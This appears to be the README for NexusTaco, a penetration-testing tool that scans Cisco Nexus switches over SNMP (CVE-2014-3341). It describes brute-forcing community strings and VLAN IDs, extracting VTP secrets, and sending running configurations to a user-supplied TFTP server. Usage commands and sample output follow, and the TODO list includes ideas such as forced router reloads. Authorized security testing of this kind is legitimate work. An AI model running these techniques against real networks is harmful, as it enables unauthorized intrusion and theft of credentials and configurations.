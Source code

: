 CVE ID: CVE-2014-3341

Cisco Bug ID: CSCup85616

Ref:      http://tools.cisco.com/security/center/viewAlert.x?alertId=35338
          http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-3341
     

Strings.txt Taken from https://fuzzdb.googlecode.com/svn-history/r127/trunk/wordlists-misc/wordlist-common-snmp-community-strings.txt

NexusTaco is a snmp scanner that can be used both for internal testing and external testing to assess Cisco Nexus switches ( 5000 and 6000 family).

There are many snmp scanners and brute forcers this was made for just completeness.It has the following features:

*Finds Nexus switches specifically since they seem to reply to bogus community strings

*Bruteforces Vlan ID’s which can be used for Vlan hopping / double tagging attacks without a community incase #3 doesn’t come through (useful for internal tests)

*Bruteforces snmp community strings To find the following: **System uptime **Configured networks (leverage more ground)

**Files and folders

**VTP secret and password ( can be cracked since its md5 and might be the telnet login password if exists or used somewhere else)

**Once a write community string is found the running configuration file will be send to your set ip in argv[2]. You need to configure a tftp server like solar winds’s one or something.

TODO:

*Still looking up sneaky OID’s that can provide usernames that are configured locally on the switch

*If found private snmp CS check if a AAA server is running (and get the shared secret wether radius or TACACS+)

*Show logged in users

*Disable snmp traps

*Check for port security if configured incase you need to spoof your mac so you don’t loose your port(internal tests).

*Use getopt …..

*Router reload over snmp just for evilness.

*Anything else I forgot.

$ python NexusTaco.py python NexusTaco.py CIDR

$ python NexusTaco.py x.x.x.x/32 127.0.0.1 100

Thanks nmap for the ip list

Finding vulnerable switches

x.x.x.x:Is a nexus switch, Snmp open, Has Vlans configured

Finding VlanIDs on: x.x.x.x With incorrect community string

Host: x.x.x.x has VlanID 1 Configured

Host: x.x.x.x has VlanID 2 Configured

Host: x.x.x.x has VlanID 3 Configured

Host: x.x.x.x has VlanID 4 Configured

Host: x.x.x.x has VlanID 5 Configured

Host: x.x.x.x has VlanID 6 Configured

Host: x.x.x.x has VlanID 7 Configured

Host: x.x.x.x has VlanID 8 Configured

Host: x.x.x.x has VlanID 10 Configured

Host: x.x.x.x has VlanID 31 Configured

Host: x.x.x.x has VlanID 32 Configured

Host: x.x.x.x has VlanID 33 Configured

Host: x.x.x.x has VlanID 34 Configured

Host: x.x.x.x has VlanID 35 Configured

Host: x.x.x.x has VlanID 40 Configured

Host: x.x.x.x has VlanID 64 Configured

Host: x.x.x.x has VlanID 65 Configured

Host: x.x.x.x has VlanID 97 Configured

Host: x.x.x.x has VlanID 98 Configured

Host: x.x.x.x has VlanID 99 Configured

Host: x.x.x.x has VlanID 100 Configured

.....
